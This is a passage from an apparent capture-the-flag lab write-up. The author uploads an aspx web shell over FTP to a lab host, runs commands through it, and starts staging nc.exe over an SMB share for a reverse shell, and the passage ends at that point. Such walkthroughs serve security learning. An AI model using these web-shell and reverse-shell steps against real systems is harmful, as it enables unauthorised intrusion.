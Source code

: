 Seeing that this server is running ASP.NET means I will likely need a .aspx webshell when I get to that.

## Shell as web

### Webshell Upload

I always like to start with a simple web shell to test execution. In this case, I’m going to try aspx. If you google for aspx webshell, you’ll find tons out there. I like the one that comes with [SecLists](https://github.com/danielmiessler/SecLists). I’ll find it and copy it to my local directory:

```

root@kali# locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
root@kali# cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .

```

Now I’ll upload it over ftp:

```

ftp> put cmd.aspx  
local: cmd.aspx remote: cmd.aspx 
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.                              
1442 bytes sent in 0.00 secs (985.4465 kB/s) 

```

### Webshell Execition

Now I can just visit `http://10.10.10.5/cmd.aspx` and I get a form:

![1550832779390](https://0xdfimages.gitlab.io/img/1550832779390.png)

Running `whoami` gives me output:

![1550832798627](https://0xdfimages.gitlab.io/img/1550832798627.png)

### Shell

I’ll show three ways to get a shell from here, using `nc.exe`, [Nishang](https://github.com/samratashok/nishang), and `meterpreter`.

#### nc.exe

On a Windows host, my favorite way to move files back and forth is with `smbserver.py`. I’ll make a directory called smb, and copy `nc.exe` into it:

```

root@kali# mkdir smb
root@kali# locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/opt/shells/netcat/nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe
root@kali# cp /usr/share/windows-binaries/nc.exe smb/

```
